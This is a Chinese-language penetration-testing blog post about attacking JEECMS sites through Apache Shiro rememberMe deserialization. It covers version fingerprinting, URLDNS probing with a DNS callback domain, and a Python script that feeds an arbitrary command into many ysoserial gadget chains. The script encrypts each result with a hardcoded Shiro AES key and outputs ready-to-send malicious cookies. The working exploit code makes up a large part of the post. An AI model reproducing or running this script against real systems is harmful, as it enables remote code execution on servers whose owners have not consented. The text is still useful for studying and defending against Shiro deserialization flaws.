



# 再战JEECMS-shiro的小技巧


### 前言

又一次攻防中，还是遇到了JEECMS，同样是有key，但是没有常规链可以回显。使用DNSURL利用链可以出网。


### 收集信息

又一个小技巧：通过install.html可以查看jeecms的版本。




### 使用DNSURL来探测其他利用链

对于shiro，使用成熟的exp工具来自动回显利用的情况已经越来越少。大部分情况下，即使找到key也无法找到合适的利用方式和正确的利用版本（工具生成序列化字符串时使用的依赖版本与服务器上运行的依赖版本不符就会产生报错，无法反序列化）。

但是由于DNSURL链是基于jar包且不受版本影响的，所以遇到shiro的出网的站时，可以用[这个工具](https://github.com/kezibei/Urldns)生成利用链探测payload，实操如下：



注意此时生成的是base64编码的值，shiro验证和利用还需要自己写脚本进行aes或者gcm的加密。使用Burp输入cookie字段发包后可以得知为Windows服务器，存在c3p0-92版本和cc31版本依赖（但不是一定就可以利用）。




### 相关EXP脚本

验证时，我则是配合[一个魔改yso](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)写了个脚本来批量生成payload。

```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command,gadget):
    popen = subprocess.Popen(['java', '-jar', '.\\ysoserial-for-woodpecker-0.5.1.jar', '-g', gadget , '-a', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "4AvVhmFLUs0KTA3Kprsdag=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

def encode_rememberme1():
    popen = subprocess.Popen(['java', '-jar', '.\\ysoserial-for-woodpecker-0.5.1.jar', '-g', 'URLDNS' , '-a', 'http://test5.351999e7.dns.1433.eu.org'], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "4AvVhmFLUs0KTA3Kprsdag=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    cmd = sys.argv[1]   
    gadgets = ['C3P0','C3P0_LowVer','CommonsBeanutils1','CommonsBeanutils1_183','CommonsBeanutils2','CommonsBeanutils2_183','CommonsBeanutils3',
    'CommonsCollections1','CommonsCollections2','CommonsCollections3','CommonsCollections4','CommonsCollections5','CommonsCollections6','CommonsCollections7','CommonsCollections8',
    'CommonsCollections9','CommonsCollections10','CommonsCollections11','CommonsCollections6Lite','CommonsCollectionsK1','CommonsCollectionsK2','CommonsCollectionsK3','CommonsCollectionsK4']
    for gadget in gadgets:
        payload=encode_rememberme(cmd,gadget)
        with open("./payload.cookie", "a+") as fpw:
            print("rememberMe={}".format(payload.decode()), file=fpw)

    payload1=encode_rememberme1()
    with open("./payload.cookie", "a+") as fpw:
                print("rememberMe={}".format(payload1.decode()), file=fpw)
```

